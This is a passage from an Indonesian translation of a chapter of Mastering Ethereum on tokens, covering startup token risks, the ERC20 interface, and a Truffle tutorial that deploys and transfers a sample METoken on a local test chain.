Bagi sebuah startup, setiap inovasi mewakili risiko dan filter pasar. Inovasi adalah mengambil jalan yang paling jarang dilalui, menjauh dari jalur tradisi. Ini sudah merupakan perjalanan yang sepi. Jika sebuah startup mencoba berinovasi di bidang teknologi baru, seperti berbagi penyimpanan melalui jaringan P2P, itu sudah merupakan jalur yang cukup sepi. Menambahkan token utilitas ke inovasi itu dan mengharuskan pengguna untuk mengadopsi token untuk menggunakan layanan tersebut akan memperparah risiko dan meningkatkan hambatan adopsi. Ini seperti berjalan keluar dari jalur inovasi penyimpanan P2P yang sudah sepi dan masuk ke hutan belantara.

Pikirkan setiap inovasi sebagai filter. Ini membatasi adopsi ke bagian pasar yang dapat menjadi pengadopsi awal inovasi ini. Menambahkan filter kedua akan memperparah efek itu, lebih lanjut membatasi pasar yang dapat ditangani. Anda meminta pengadopsi awal Anda untuk mengadopsi tidak hanya satu tetapi dua teknologi yang sama sekali baru: aplikasi/platform/layanan baru yang Anda bangun, dan ekonomi token.

Bagi sebuah startup, setiap inovasi menimbulkan risiko yang meningkatkan kemungkinan kegagalan startup. Jika Anda mengambil ide startup Anda yang sudah berisiko dan menambahkan token utilitas, Anda menambahkan semua risiko dari platform yang mendasarinya (Ethereum), ekonomi yang lebih luas (bursa, likuiditas), lingkungan peraturan (regulator ekuitas/komoditas), dan teknologi (kontrak pintar, standar token). Itu adalah banyak risiko bagi sebuah startup.

Para pendukung “tokenisasi semua hal” kemungkinan akan membalas bahwa dengan mengadopsi token, mereka juga mewarisi antusiasme pasar, pengadopsi awal, teknologi, inovasi, dan likuiditas dari seluruh ekonomi token. Itu juga benar. Pertanyaannya adalah apakah manfaat dan antusiasme lebih besar daripada risiko dan ketidakpastian.

Namun demikian, beberapa ide bisnis paling inovatif memang terjadi di dunia kripto. Jika regulator tidak cukup cepat untuk mengadopsi undang-undang dan mendukung model bisnis baru, pengusaha dan talenta terkait akan berusaha beroperasi di yurisdiksi lain yang lebih ramah kripto. Ini sudah terjadi.

Akhirnya, di awal bab ini, saat memperkenalkan token, kami membahas arti sehari-hari “token” sebagai “sesuatu yang bernilai tidak signifikan.” Alasan mendasar dari nilai yang tidak signifikan dari sebagian besar token adalah karena mereka hanya dapat digunakan dalam konteks yang sangat sempit: satu perusahaan bus, satu binatu, satu arkade, satu hotel, atau satu toko perusahaan. Likuiditas terbatas, penerapan terbatas, dan biaya konversi tinggi mengurangi nilai token hingga hanya bernilai “token”. Jadi ketika Anda menambahkan token utilitas ke platform Anda, tetapi token tersebut hanya dapat digunakan di satu platform Anda dengan pasar kecil, Anda menciptakan kembali kondisi yang membuat token fisik tidak berharga. Ini mungkin memang cara yang benar untuk memasukkan tokenisasi ke dalam proyek Anda. Namun, jika untuk menggunakan platform Anda, seorang pengguna harus mengubah sesuatu menjadi token utilitas Anda, menggunakannya, dan kemudian mengubah sisanya kembali menjadi sesuatu yang lebih berguna secara umum, Anda telah menciptakan **skrip perusahaan (*company scrip*)**. Biaya peralihan dari token digital jauh lebih rendah daripada token fisik tanpa pasar, tetapi tidak nol. Token utilitas yang berfungsi di seluruh sektor industri akan sangat menarik dan mungkin cukup berharga. Tetapi jika Anda mendirikan startup Anda untuk harus memulai standar industri secara keseluruhan agar berhasil, Anda mungkin sudah gagal.

> Salah satu manfaat menerapkan layanan di platform serbaguna seperti Ethereum adalah kemampuan untuk menghubungkan kontrak pintar (dan oleh karena itu utilitas token) di seluruh proyek, meningkatkan potensi likuiditas dan utilitas token.

Buat keputusan ini karena alasan yang tepat. Adopsi token karena aplikasi Anda tidak dapat bekerja tanpa token. Adopsi karena token tersebut menghilangkan hambatan pasar mendasar atau memecahkan masalah akses. Jangan memperkenalkan token utilitas karena itu adalah satu-satunya cara Anda dapat mengumpulkan uang dengan cepat dan Anda perlu berpura-pura itu bukan penawaran sekuritas publik.

### Token di Ethereum

Token blockchain sudah ada sebelum Ethereum. Dalam beberapa hal, mata uang blockchain pertama, Bitcoin, adalah sebuah token itu sendiri. Banyak platform token juga dikembangkan di Bitcoin dan mata uang kripto lainnya sebelum Ethereum. Namun, pengenalan standar token pertama di Ethereum menyebabkan ledakan token.

Vitalik Buterin menyarankan token sebagai salah satu aplikasi yang paling jelas dan berguna dari blockchain yang dapat diprogram secara umum seperti Ethereum. Faktanya, pada tahun pertama Ethereum, umum untuk melihat Vitalik dan lainnya mengenakan T-shirt yang dihiasi dengan logo Ethereum dan contoh kontrak pintar di bagian belakang. Ada beberapa variasi T-shirt ini, tetapi yang paling umum menunjukkan implementasi sebuah token.

Sebelum kita mendalami detail pembuatan token di Ethereum, penting untuk memiliki gambaran umum tentang bagaimana token bekerja di Ethereum. Token berbeda dari ether karena **protokol Ethereum tidak tahu apa-apa tentang mereka**. Mengirim ether adalah tindakan intrinsik dari platform Ethereum, tetapi mengirim atau bahkan memiliki token tidak. Saldo ether dari akun Ethereum ditangani di tingkat protokol, sedangkan saldo token dari akun Ethereum ditangani di tingkat kontrak pintar. Untuk membuat token baru di Ethereum, Anda harus membuat kontrak pintar baru. Setelah diterapkan, kontrak pintar menangani semuanya, termasuk kepemilikan, transfer, dan hak akses. Anda dapat menulis kontrak pintar Anda untuk melakukan semua tindakan yang diperlukan dengan cara apa pun yang Anda inginkan, tetapi mungkin paling bijaksana untuk mengikuti standar yang ada. Kita akan melihat standar semacam itu selanjutnya. Kami membahas pro dan kontra dari standar berikut di akhir bab.

#### Standar Token ERC20

Standar pertama diperkenalkan pada November 2015 oleh Fabian Vogelsteller sebagai Ethereum Request for Comments (ERC). Secara otomatis diberi nomor isu GitHub 20, yang memunculkan nama “token ERC20.” Sebagian besar token saat ini didasarkan pada standar ERC20. Permintaan komentar ERC20 akhirnya menjadi Ethereum Improvement Proposal 20 (EIP-20), tetapi sebagian besar masih disebut dengan nama asli, ERC20.

**ERC20** adalah standar untuk **token fungible**, yang berarti bahwa unit-unit yang berbeda dari token ERC20 dapat dipertukarkan dan tidak memiliki properti unik.

Standar ERC20 mendefinisikan antarmuka umum untuk kontrak yang mengimplementasikan sebuah token, sehingga setiap token yang kompatibel dapat diakses dan digunakan dengan cara yang sama. Antarmuka terdiri dari sejumlah fungsi yang harus ada di setiap implementasi standar, serta beberapa fungsi dan atribut opsional yang dapat ditambahkan oleh pengembang.

##### Fungsi dan *event* yang diwajibkan oleh ERC20

Kontrak token yang sesuai dengan ERC20 harus menyediakan setidaknya fungsi dan *event* berikut:

  * **`totalSupply`**
    Mengembalikan jumlah total unit token ini yang saat ini ada. Token ERC20 dapat memiliki pasokan tetap atau variabel.
  * **`balanceOf`**
    Dengan alamat yang diberikan, mengembalikan saldo token dari alamat tersebut.
  * **`transfer`**
    Dengan alamat dan jumlah yang diberikan, mentransfer jumlah token tersebut ke alamat itu, dari saldo alamat yang mengeksekusi transfer.
  * **`transferFrom`**
    Dengan pengirim, penerima, dan jumlah yang diberikan, mentransfer token dari satu akun ke akun lain. Digunakan dalam kombinasi dengan `approve`.
  * **`approve`**
    Dengan alamat penerima dan jumlah yang diberikan, memberi wewenang kepada alamat tersebut untuk mengeksekusi beberapa transfer hingga jumlah tersebut, dari akun yang mengeluarkan persetujuan.
  * **`allowance`**
    Dengan alamat pemilik dan alamat pembelanja, mengembalikan jumlah sisa yang disetujui untuk ditarik oleh pembelanja dari pemilik.
  * **`Transfer`**
    *Event* yang dipicu setelah transfer berhasil (panggilan ke `transfer` atau `transferFrom`) (bahkan untuk transfer bernilai nol).
  * **`Approval`**
    *Event* yang dicatat setelah panggilan berhasil ke `approve`.

##### Fungsi opsional ERC20

Selain fungsi yang diwajibkan yang tercantum di bagian sebelumnya, fungsi opsional berikut juga didefinisikan oleh standar:

  * **`name`**
    Mengembalikan nama yang dapat dibaca manusia (mis., “Dolar AS”) dari token.
  * **`symbol`**
    Mengembalikan simbol yang dapat dibaca manusia (mis., “USD”) untuk token.
  * **`decimals`**
    Mengembalikan jumlah desimal yang digunakan untuk membagi jumlah token. Misalnya, jika `decimals` adalah 2, maka jumlah token dibagi 100 untuk mendapatkan representasi penggunanya.

##### Antarmuka ERC20 yang didefinisikan di Solidity

Berikut adalah seperti apa spesifikasi antarmuka ERC20 di Solidity:

```solidity
contract ERC20 {
  function totalSupply() public view returns (uint theTotalSupply);
  function balanceOf(address _owner) public view returns (uint balance);
  function transfer(address _to, uint _value) public returns (bool success);
  function transferFrom(address _from, address _to, uint _value) public returns (bool success);
  function approve(address _spender, uint _value) public returns (bool success);
  function allowance(address _owner, address _spender) public view returns (uint remaining);

  event Transfer(address indexed _from, address indexed _to, uint _value);
  event Approval(address indexed _owner, address indexed _spender, uint _value);
}
```

##### Struktur data ERC20

Jika Anda memeriksa implementasi ERC20 apa pun, Anda akan melihat bahwa ia berisi dua struktur data, satu untuk melacak saldo dan satu untuk melacak tunjangan (*allowances*). Di Solidity, mereka diimplementasikan dengan *mapping* data.

*Mapping* data pertama mengimplementasikan tabel internal saldo token, berdasarkan pemilik. Ini memungkinkan kontrak token untuk melacak siapa yang memiliki token. Setiap transfer adalah pengurangan dari satu saldo dan penambahan ke saldo lain:

```solidity
mapping(address => uint256) balances;
```

Struktur data kedua adalah *mapping* data dari tunjangan. Seperti yang akan kita lihat di bagian berikutnya, dengan token ERC20, seorang pemilik token dapat mendelegasikan wewenang kepada seorang pembelanja, memungkinkan mereka untuk membelanjakan jumlah tertentu (tunjangan) dari saldo pemilik. Kontrak ERC20 melacak tunjangan dengan *mapping* dua dimensi, dengan kunci utama adalah alamat pemilik token, yang memetakan ke alamat pembelanja dan jumlah tunjangan:

```solidity
mapping (address => mapping (address => uint256)) public allowed;
```

##### Alur kerja ERC20: “transfer” dan “approve & transferFrom”

Standar token ERC20 memiliki dua fungsi transfer. Anda mungkin bertanya-tanya mengapa. ERC20 memungkinkan dua alur kerja yang berbeda.

Yang pertama adalah alur kerja satu transaksi yang lugas menggunakan fungsi **`transfer`**. Alur kerja ini adalah yang digunakan oleh dompet untuk mengirim token ke dompet lain. Sebagian besar transaksi token terjadi dengan alur kerja `transfer`.

Mengeksekusi kontrak `transfer` sangat sederhana. Jika Alice ingin mengirim 10 token ke Bob, dompetnya mengirimkan transaksi ke alamat kontrak token, memanggil fungsi `transfer` dengan alamat Bob dan 10 sebagai argumen. Kontrak token menyesuaikan saldo Alice (–10) dan saldo Bob (+10) dan mengeluarkan *event* `Transfer`.

Alur kerja kedua adalah alur kerja dua transaksi yang menggunakan **`approve`** diikuti oleh **`transferFrom`**. Alur kerja ini memungkinkan pemilik token untuk mendelegasikan kontrol mereka ke alamat lain. Ini paling sering digunakan untuk mendelegasikan kontrol ke kontrak untuk distribusi token, tetapi juga dapat digunakan oleh bursa.

Misalnya, jika sebuah perusahaan menjual token untuk ICO, mereka dapat menyetujui alamat kontrak *crowdsale* untuk mendistribusikan sejumlah token. Kontrak *crowdsale* kemudian dapat melakukan `transferFrom` dari saldo pemilik kontrak token ke setiap pembeli token, seperti yang diilustrasikan pada Gambar 10-1.

> **Initial Coin Offering (ICO)** adalah mekanisme *crowdfunding* yang digunakan oleh perusahaan dan organisasi untuk mengumpulkan uang dengan menjual token. Istilah ini berasal dari *Initial Public Offering* (IPO), yaitu proses di mana perusahaan publik menawarkan saham untuk dijual kepada investor di bursa saham. Tidak seperti pasar IPO yang sangat diatur, ICO bersifat terbuka, global, dan berantakan. Contoh dan penjelasan ICO dalam buku ini bukan merupakan dukungan terhadap jenis penggalangan dana ini.

<p align="center">
  
</p>

Untuk alur kerja `approve & transferFrom`, diperlukan dua transaksi. Katakanlah Alice ingin mengizinkan kontrak `AliceICO` untuk menjual 50% dari semua token `AliceCoin` kepada pembeli seperti Bob dan Charlie. Pertama, Alice meluncurkan kontrak `AliceCoin` ERC20, menerbitkan semua `AliceCoin` ke alamatnya sendiri. Kemudian, Alice meluncurkan kontrak `AliceICO` yang dapat menjual token dengan imbalan ether. Selanjutnya, Alice memulai alur kerja `approve & transferFrom`. Dia mengirimkan transaksi ke kontrak `AliceCoin`, memanggil `approve` dengan alamat kontrak `AliceICO` dan 50% dari `totalSupply` sebagai argumen. Ini akan memicu *event* `Approval`. Sekarang, kontrak `AliceICO` dapat menjual `AliceCoin`.

Ketika kontrak `AliceICO` menerima ether dari Bob, ia perlu mengirimkan beberapa `AliceCoin` ke Bob sebagai balasannya. Di dalam kontrak `AliceICO` terdapat nilai tukar antara `AliceCoin` dan ether. Nilai tukar yang ditetapkan Alice saat dia membuat kontrak `AliceICO` menentukan berapa banyak token yang akan diterima Bob untuk jumlah ether yang dikirim ke kontrak `AliceICO`. Ketika kontrak `AliceICO` memanggil fungsi `transferFrom` `AliceCoin`, ia menetapkan alamat Alice sebagai pengirim dan alamat Bob sebagai penerima, dan menggunakan nilai tukar untuk menentukan berapa banyak token `AliceCoin` yang akan ditransfer ke Bob di bidang nilai. Kontrak `AliceCoin` mentransfer saldo dari alamat Alice ke alamat Bob dan memicu *event* `Transfer`. Kontrak `AliceICO` dapat memanggil `transferFrom` dalam jumlah tak terbatas, selama tidak melebihi batas persetujuan yang ditetapkan Alice. Kontrak `AliceICO` dapat melacak berapa banyak token `AliceCoin` yang dapat dijualnya dengan memanggil fungsi `allowance`.

### Implementasi ERC20

Meskipun dimungkinkan untuk mengimplementasikan token yang kompatibel dengan ERC20 dalam sekitar 30 baris kode Solidity, sebagian besar implementasi lebih kompleks. Hal ini untuk memperhitungkan potensi kerentanan keamanan. Ada dua implementasi yang disebutkan dalam standar EIP-20:

  * **Consensys EIP20**
    Implementasi token yang kompatibel dengan ERC20 yang sederhana dan mudah dibaca.
  * **OpenZeppelin StandardToken**
    Implementasi ini kompatibel dengan ERC20, dengan tindakan pencegahan keamanan tambahan. Ini menjadi dasar dari pustaka OpenZeppelin yang mengimplementasikan token yang kompatibel dengan ERC20 yang lebih kompleks dengan batasan penggalangan dana, lelang, jadwal vesting, dan fitur lainnya.

### Meluncurkan Token ERC20 Kita Sendiri

Mari kita buat dan luncurkan token kita sendiri. Untuk contoh ini, kita akan menggunakan kerangka kerja Truffle. Contoh ini mengasumsikan Anda telah menginstal `truffle` dan mengkonfigurasinya, serta akrab dengan operasi dasarnya (untuk detailnya, lihat “Truffle” di halaman 345).

Kita akan menamai token kita “Mastering Ethereum Token,” dengan simbol “MET.”

Anda dapat menemukan contoh ini di repositori [GitHub buku ini](https://github.com/ethereumbook/ethereumbook/blob/develop/code/truffle/METoken).

Pertama, mari kita buat dan inisialisasi direktori proyek Truffle. Jalankan empat perintah ini dan terima jawaban default untuk setiap pertanyaan:

```bash
$ mkdir METoken
$ cd METoken
METoken $ truffle init
METoken $ npm init
```

Sekarang Anda seharusnya memiliki struktur direktori berikut:

```
METoken/
+---- contracts
|
`---- Migrations.sol
+---- migrations
|
`---- 1_initial_migration.js
+---- package.json
+---- test
+---- truffle-config.js
`---- truffle.js
```

Edit file konfigurasi `truffle.js` atau `truffle-config.js` untuk mengatur lingkungan Truffle Anda, atau salin yang terakhir dari repositori.

Jika Anda menggunakan contoh `truffle-config.js`, ingatlah untuk membuat file `.env` di folder `METoken` yang berisi kunci privat pengujian Anda untuk pengujian dan penyebaran di jaringan pengujian publik Ethereum, seperti Ropsten atau Kovan. Anda dapat mengekspor kunci privat jaringan pengujian Anda dari MetaMask.

Setelah itu direktori Anda akan terlihat seperti ini:

```
METoken/
+---- contracts
|
`---- Migrations.sol
+---- migrations
|
`---- 1_initial_migration.js
+---- package.json
+---- test
+---- truffle-config.js
+---- truffle.js
`---- .env *new file*
```

> ⚠️ Hanya gunakan kunci pengujian atau mnemonik pengujian yang tidak digunakan untuk menyimpan dana di jaringan utama Ethereum. **Jangan pernah menggunakan kunci yang menyimpan uang sungguhan untuk pengujian.**

Untuk contoh kita, kita akan mengimpor pustaka OpenZeppelin, yang mengimplementasikan beberapa pemeriksaan keamanan penting dan mudah untuk diperluas:

```bash
$ npm install openzeppelin-solidity@1.12.0
+ openzeppelin-solidity@1.12.0
added 1 package from 1 contributor and audited 2381 packages in 4.074s
```

Paket `openzeppelin-solidity` akan menambahkan sekitar 250 file di bawah direktori `node_modules`. Pustaka OpenZeppelin mencakup lebih dari sekadar token ERC20, tetapi kita hanya akan menggunakan sebagian kecil darinya.

Selanjutnya, mari kita tulis kontrak token kita. Buat file baru, `METoken.sol`, dan salin kode contoh dari GitHub.

Kontrak kita, yang ditunjukkan pada Contoh 10-1, sangat sederhana, karena ia mewarisi semua fungsionalitasnya dari pustaka OpenZeppelin.

**Contoh 10-1. METoken.sol: Kontrak Solidity yang mengimplementasikan token ERC20**

```solidity
1 pragma solidity ^0.4.21;
2
3 import 'openzeppelin-solidity/contracts/token/ERC20/StandardToken.sol';
4
5 contract METoken is StandardToken {
6
7   string public constant name = 'Mastering Ethereum Token';
8   string public constant symbol = 'MET';
9   uint8 public constant decimals = 2;
10  uint256 constant _initial_supply = 2100000000;
11
12  constructor() public {
13    totalSupply_ = _initial_supply;
14    balances[msg.sender] = _initial_supply;
15    emit Transfer(address(0), msg.sender, _initial_supply);
16  }
17 }
```

Di sini, kita mendefinisikan variabel opsional `name`, `symbol`, dan `decimals`. Kita juga mendefinisikan variabel `_initial_supply`, yang diatur ke 21 juta token; dengan dua desimal subdivisi, itu memberikan total 2,1 miliar unit. Dalam fungsi inisialisasi (konstruktor) kontrak, kita mengatur `totalSupply_` agar sama dengan `_initial_supply` dan mengalokasikan semua `_initial_supply` ke saldo akun (`msg.sender`) yang membuat kontrak `METoken`.

Sekarang kita menggunakan `truffle` untuk mengkompilasi kode `METoken`:

```bash
$ truffle compile
Compiling ./contracts/METoken.sol...
Compiling ./contracts/Migrations.sol...
Compiling openzeppelin-solidity/contracts/math/SafeMath.sol...
Compiling openzeppelin-solidity/contracts/token/ERC20/BasicToken.sol...
Compiling openzeppelin-solidity/contracts/token/ERC20/ERC20.sol...
Compiling openzeppelin-solidity/contracts/token/ERC20/ERC20Basic.sol...
Compiling openzeppelin-solidity/contracts/token/ERC20/StandardToken.sol...
```

Seperti yang Anda lihat, `truffle` menggabungkan dependensi yang diperlukan dari pustaka OpenZeppelin dan mengkompilasi kontrak-kontrak tersebut juga.

Mari kita siapkan skrip migrasi untuk menerapkan kontrak `METoken`. Buat file baru bernama `2_deploy_contracts.js`, di folder `METoken/migrations`. Salin isinya dari contoh di repositori GitHub:

```javascript
1 var METoken = artifacts.require("METoken");
2
3 module.exports = function(deployer) {
4   // Menerapkan kontrak METoken sebagai satu-satunya tugas kita
5   deployer.deploy(METoken);
6 };
```

Sebelum kita menerapkan di salah satu jaringan pengujian Ethereum, mari kita mulai blockchain lokal untuk menguji semuanya. Mulai blockchain `ganache`, baik dari baris perintah dengan `ganache-cli` atau dari antarmuka pengguna grafis.

Setelah `ganache` dimulai, kita dapat menerapkan kontrak `METoken` kita dan melihat apakah semuanya berfungsi seperti yang diharapkan:

```bash
$ truffle migrate --network ganache
Using network 'ganache'.

Running migration: 1_initial_migration.js
  Deploying Migrations...
  ... 0xb2e90a056dc6ad8e654683921fc613c796a03b89df6760ec1db1084ea4a084eb
  Migrations: 0x8cdaf0cd259887258bc13a92c0a6da92698644c0
Saving successful migration to network...
  ... 0xd7bc86d31bee32fa3988f1c1eabce403a1b5d570340a3a9cdba53a472ee8c956
Saving artifacts...
Running migration: 2_deploy_contracts.js
  Deploying METoken...
  ... 0xbe9290d59678b412e60ed6aefedb17364f4ad2977cfb2076b9b8ad415c5dc9f0
  METoken: 0x345ca3e014aaf5dca488057592ee47305d9b3e10
Saving successful migration to network...
  ... 0xf36163615f41ef7ed8f4a8f192149a0bf633fe1a2398ce001bf44c43dc7bdda0
Saving artifacts...
```

Pada konsol `ganache`, kita akan melihat bahwa penerapan kita telah menciptakan empat transaksi baru, seperti yang digambarkan pada Gambar 10-2.

<p align="center">
  
</p>

### Berinteraksi dengan METoken menggunakan konsol Truffle

Kita dapat berinteraksi dengan kontrak kita di blockchain `ganache` menggunakan konsol Truffle. Ini adalah lingkungan JavaScript interaktif yang menyediakan akses ke lingkungan Truffle dan, melalui `web3`, ke blockchain. Dalam kasus ini, kita akan menghubungkan konsol Truffle ke blockchain `ganache`:

```bash
$ truffle console --network ganache
truffle(ganache)>
```

Prompt `truffle(ganache)>` menunjukkan bahwa kita terhubung ke blockchain `ganache` dan siap untuk mengetik perintah kita. Konsol Truffle mendukung semua perintah `truffle`, jadi kita bisa melakukan kompilasi dan migrasi dari konsol. Kita sudah menjalankan perintah-perintah tersebut, jadi mari kita langsung ke kontrak itu sendiri. Kontrak `METoken` ada sebagai objek JavaScript di dalam lingkungan Truffle. Ketik `METoken` pada prompt dan ia akan menampilkan seluruh definisi kontrak:

```javascript
truffle(ganache)> METoken
{ [Function: TruffleContract]
  _static_methods:
  [...]
  currentProvider:
   HttpProvider {
     host: 'http://localhost:7545',
     timeout: 0,
     user: undefined,
     password: undefined,
     headers: undefined,
     send: [Function],
     sendAsync: [Function],
     _alreadyWrapped: true },
  network_id: '5777' }
```

Objek `METoken` juga mengekspos beberapa atribut, seperti alamat kontrak (seperti yang diterapkan oleh perintah `migrate`):

```javascript
truffle(ganache)> METoken.address
'0x345ca3e014aaf5dca488057592ee47305d9b3e10'
```

Jika kita ingin berinteraksi dengan kontrak yang telah diterapkan, kita harus menggunakan panggilan asinkron, dalam bentuk “promise” JavaScript. Kita menggunakan fungsi `deployed` untuk mendapatkan instansi kontrak dan kemudian memanggil fungsi `totalSupply`:

```javascript
truffle(ganache)> METoken.deployed().then(instance => instance.totalSupply())
BigNumber { s: 1, e: 9, c: [ 2100000000 ] }
```

Selanjutnya, mari kita gunakan akun yang dibuat oleh `ganache` untuk memeriksa saldo `METoken` kita dan mengirim beberapa `METoken` ke alamat lain. Pertama, mari kita dapatkan alamat akun:

```javascript
truffle(ganache)> let accounts
undefined
truffle(ganache)> web3.eth.getAccounts((err,res) => { accounts = res })
undefined
truffle(ganache)> accounts[0]
'0x627306090abab3a6e1400e9345bc60c78a8bef57'
```

Daftar `accounts` sekarang berisi semua akun yang dibuat oleh `ganache`, dan `account[0]` adalah akun yang menerapkan kontrak `METoken`. Akun ini seharusnya memiliki saldo `METoken`, karena konstruktor `METoken` kita memberikan seluruh pasokan token ke alamat yang membuatnya. Mari kita periksa:

```javascript
truffle(ganache)> METoken.deployed().then(instance => { instance.balanceOf(accounts[0]).then(console.log) })
undefined
truffle(ganache)> BigNumber { s: 1, e: 9, c: [ 2100000000 ] }
```

Terakhir, mari kita transfer 1000.00 `METoken` dari `account[0]` ke `account[1]`, dengan memanggil fungsi `transfer` kontrak:

```javascript
truffle(ganache)> METoken.deployed().then(instance => { instance.transfer(accounts[1], 100000) })
undefined

truffle(ganache)> METoken.deployed().then(instance => { instance.balanceOf(accounts[0]).then(console.log) })
undefined
truffle(ganache)> BigNumber { s: 1, e: 9, c: [ 2099900000 ] }

undefined
truffle(ganache)> METoken.deployed().then(instance => { instance.balanceOf(accounts[1]).then(console.log) })
undefined
truffle(ganache)> BigNumber { s: 1, e: 5, c: [ 100000 ] }
```

> `METoken` memiliki 2 desimal presisi, yang berarti bahwa 1 `METoken` adalah 100 unit di dalam kontrak. Ketika kita mentransfer 1.000 `METoken`, kita menentukan nilainya sebagai **100000** dalam panggilan ke fungsi `transfer`.

Seperti yang Anda lihat, di konsol, `account[0]` sekarang memiliki 20.999.000 MET, dan `account[1]` memiliki 1.000 MET.

Jika Anda beralih ke antarmuka pengguna grafis `ganache`, seperti yang ditunjukkan pada Gambar 10-3, Anda akan melihat transaksi yang memanggil fungsi `transfer`.

<p align="center">
  
</p>

### Mengirim token ERC20 ke alamat kontrak

Sejauh ini, kita telah menyiapkan token ERC20 dan mentransfer beberapa token dari satu akun ke akun lain. Semua akun yang kita gunakan untuk demonstrasi ini adalah akun milik eksternal (*externally owned accounts*), yang berarti mereka dikendalikan oleh kunci privat, bukan kontrak. Apa yang terjadi jika kita mengirim MET ke alamat kontrak? Mari kita cari tahu\!

Pertama, mari kita terapkan kontrak lain ke lingkungan pengujian kita. Untuk contoh ini, kita akan menggunakan kontrak pertama kita, `Faucet.sol`. Mari kita tambahkan ke proyek `METoken` dengan menyalinnya ke direktori `contracts`. Direktori kita akan terlihat seperti ini:

```
METoken/
+---- contracts
|
+---- Faucet.sol
|
+---- METoken.sol
|
`---- Migrations.sol
```

Kita juga akan menambahkan sebuah migrasi, untuk menerapkan `Faucet` secara terpisah dari `METoken`:

```javascript
var Faucet = artifacts.require("Faucet");

module.exports = function(deployer) {
  // Menerapkan kontrak Faucet sebagai satu-satunya tugas kita
  deployer.deploy(Faucet);
};
```

Mari kita kompilasi dan migrasikan kontrak dari konsol Truffle:

```bash
$ truffle console --network ganache
truffle(ganache)> compile
Compiling ./contracts/Faucet.sol...
Writing artifacts to ./build/contracts

truffle(ganache)> migrate
Using network 'ganache'.

Running migration: 1_initial_migration.js
  Deploying Migrations...
  ... 0x89f6a7bd2a596829c60a483ec99665c7af71e68c77a417fab503c394fcd7a0c9
  Migrations: 0xa1ccce36fb823810e729dce293b75f40fb6ea9c9
Saving artifacts...
Running migration: 2_deploy_contracts.js
  Replacing METoken...
  ... 0x28d0da26f48765f67e133e99dd275fac6a25fdfec6594060fd1a0e09a99b44ba
  METoken: 0x7d6bf9d5914d37bcba9d46df7107e71c59f3791f
Saving artifacts...
Running migration: 3_deploy_faucet.js
  Deploying Faucet...
  ... 0x6fbf283bcc97d7c52d92fd91f6ac02d565f5fded483a6a0f824f66edc6fa90c3
  Faucet: 0xb18a42e9468f7f1342fa3c329ec339f254bc7524
Saving artifacts...
```

Bagus. Sekarang mari kita kirim beberapa MET ke kontrak `Faucet`:

```javascript
truffle(ganache)> METoken.deployed().then(instance => { instance.transfer(Faucet.address, 100000) })

truffle(ganache)> METoken.deployed().then(instance => { instance.balanceOf(Faucet.address).then(console.log)})
truffle(ganache)> BigNumber { s: 1, e: 5, c: [ 100000 ] }
```

Baiklah, kita telah mentransfer 1.000 MET ke kontrak `Faucet`. Sekarang, bagaimana cara kita menarik token-token itu?

Ingat, `Faucet.sol` adalah kontrak yang cukup sederhana. Ia hanya memiliki satu fungsi, `withdraw`, yang berfungsi untuk menarik ether. Ia **tidak memiliki fungsi** untuk menarik MET, atau token ERC20 lainnya. Jika kita menggunakan `withdraw`, ia akan mencoba mengirim ether, tetapi karena `Faucet` belum memiliki saldo ether, itu akan gagal.

Kontrak `METoken` tahu bahwa `Faucet` memiliki saldo, tetapi satu-satunya cara ia dapat mentransfer saldo itu adalah jika ia menerima panggilan `transfer` dari alamat kontrak tersebut. Entah bagaimana kita perlu membuat kontrak `Faucet` memanggil fungsi `transfer` di `METoken`.

Jika Anda bertanya-tanya apa yang harus dilakukan selanjutnya, jangan. **Tidak ada solusi untuk masalah ini.** MET yang dikirim ke `Faucet` **terjebak, selamanya**. Hanya kontrak `Faucet` yang dapat mentransfernya, dan kontrak `Faucet` tidak memiliki kode untuk memanggil fungsi `transfer` dari kontrak token ERC20.

Mungkin Anda mengantisipasi masalah ini. Kemungkinan besar, Anda tidak. Faktanya, ratusan pengguna Ethereum juga tidak, yang secara tidak sengaja mentransfer berbagai token ke kontrak yang tidak memiliki kemampuan ERC20. Menurut beberapa perkiraan, token senilai lebih dari sekitar $2,5 juta USD (pada saat penulisan) telah "terjebak" seperti ini dan hilang selamanya.

Salah satu cara pengguna token ERC20 dapat secara tidak sengaja kehilangan token mereka dalam sebuah transfer adalah ketika mereka mencoba mentransfer ke bursa atau layanan lain. Mereka menyalin alamat Ethereum dari situs web bursa, berpikir mereka bisa langsung mengirim token ke sana. Namun, banyak bursa mempublikasikan alamat penerima yang sebenarnya adalah **kontrak**\! Kontrak-kontrak ini hanya dimaksudkan untuk menerima ether, bukan token ERC20, dan paling sering memindahkan semua dana yang dikirim ke "penyimpanan dingin (*cold storage*)" atau dompet terpusat lainnya. Meskipun banyak peringatan yang mengatakan “jangan kirim token ke alamat ini,” banyak token hilang dengan cara ini.

### Mendemonstrasikan alur kerja `approve & transferFrom`

Kontrak `Faucet` kita tidak dapat menangani token ERC20. Mengirim token ke sana menggunakan fungsi `transfer` mengakibatkan hilangnya token-token tersebut. Mari kita tulis ulang kontrak sekarang dan membuatnya menangani token ERC20. Secara khusus, kita akan mengubahnya menjadi *faucet* yang memberikan MET kepada siapa saja yang meminta.

